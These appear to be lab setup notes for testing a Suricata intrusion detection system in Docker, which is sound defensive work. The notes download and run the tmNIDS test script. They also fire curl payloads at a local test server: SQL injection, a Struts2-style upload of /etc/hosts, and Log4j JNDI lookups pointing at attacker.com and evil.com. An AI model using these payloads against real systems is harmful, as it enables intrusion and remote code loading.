

- execute  `sudo rmdir config/suricata/logs/eve.json` 
- execute  `sudo touch config/suricata/logs/eve.json`

- execute `docker compose up -d`

- Try some attacks?

- run `docker compose exec curl bash -c "curl -sSL https://raw.githubusercontent.com/3CORESec/testmynids.org/master/tmNIDS -o /tmp/tmNIDS && chmod +x /tmp/tmNIDS && /tmp/tmNIDS -5"`
- verify with testmynids ` cat data/suricata/logs/eve.json | jq '.  | select(.event_type =="alert") | select(.alert.severity <= 2) | {alert} | .alert |  {severity, category, signature} '`
- Test some CVE attacks
- docker compose exec curl curl "http://server-app/login?user=admin&pass=%27%20OR%201%3D1" #SQL Injection (CVE-2000-1209) SQLi 
- docker compose exec curl curl -X POST -H "Content-Type: multipart/form-data" -F "file=@/etc/hosts" http://server-app/ #Apache Struts2 (CVE-2017-5638) 
- docker compose exec curl curl "http://server-app/search?q=\${jndi:ldap://attacker.com/Monsieur_On_veut_20_Sur_20}" 
- docker compose exec curl curl -v -H "User-Agent: \${jndi:ldap://evil.com/Coucou_C_est_Moi}" "http://server-app/" #Log4j (CVE-2021-44228)

  
